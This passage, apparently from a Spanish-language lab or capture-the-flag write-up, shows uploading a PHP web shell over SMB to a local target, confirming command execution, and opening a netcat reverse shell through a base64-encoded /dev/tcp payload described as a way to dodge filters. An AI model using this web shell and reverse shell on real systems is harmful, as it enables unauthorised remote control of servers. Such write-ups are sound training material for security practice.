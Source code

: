 ```php
<?php
    system($_GET['cmd'])
?>
```

Y luego regresaremos a la terminal con `smbclient`:

```bash
smb: \> put pwned.php pwned.php
putting file pwned.php as \pwned.php (31.2 kb/s) (average 31.2 kb/s)
smb: \> ls
.                                   D        0  Sun Sep  7 14:55:11 2025
..                                  D        0  Sun Sep  7 14:55:11 2025
info.php                            N       21  Sun Oct  6 03:32:50 2024
pwned.php                           A       32  Sun Sep  7 14:55:11 2025
styles.css                          N      263  Sun Oct  6 05:22:06 2024
index.php                           N     3543  Sun Oct  6 16:28:45 2024
productos.php                       N     5229  Sun Oct  6 05:21:48 2024
back.png                            N   463383  Sun Oct  6 03:59:29 2024

                58413036 blocks of size 1024. 37119052 blocks available
```

Efectivamente pudimos poner nuestro `pwned.php` dentro del directorio home.

### Ejecución remota de comandos
Ahora si navegamos al archivo PHP y le ponemos un parámetro `cmd` veremos que tenemos ejecución de comandos:

```
http://172.17.0.2/pwned.php?cmd=whoami
# www-data 
```

### Reverse Shell
Ahora lanzaremos una shell inversa.

Nos pondremos a escuchar en el puerto 4444 con Netcat en nuestra máquina:

```bash
nc -nvlp 4444
```

Y luego convertimos nuestra shell inversa en Base64:

```bash
echo "sh -i >& /dev/tcp/<ip_maquina_atacante>/4444 0>&1" | base64
```

**Explicación:** Todo lo que escribas en tu máquina irá al shell en la víctima. Todo lo que devuelva la víctima volverá a ti. Estará codificado en base64 para evitar filtros o restricciones.

Y luego ejecutamos en el parámetro `cmd` en el navegador:

```
echo c2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC4xNi4xMjgvNDQ0NCAwPiYxCg== | base64 -d | bash
```
